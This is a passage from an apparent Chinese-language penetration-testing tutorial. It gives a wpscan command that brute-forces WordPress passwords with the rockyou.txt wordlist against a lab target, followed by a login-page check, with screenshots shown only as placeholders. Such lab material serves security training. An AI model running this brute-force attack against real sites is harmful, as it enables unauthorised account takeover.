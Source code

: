 1.  要开始破解密码，我们将从 Kali 中提供的可用字典中提供 wordlist 文件，例如`rockyou.txt`。在终端中输入以下命令：

```
wpscan -u https://<IP address>:12380/blogblog/ --wordlist        /usr/share/wordlists/rockyou.txt  --threads 50

```

输出将如下截屏所示：

![操作步骤...](img/image_04_023.jpg)

1.  让我们检查密码是否有效。访问登录页面：

```
https://x.x.x.x:12380/blogblog/wp-login.php

```

输出将如下截屏所示：

![操作步骤...](img/image_04_024.jpg)
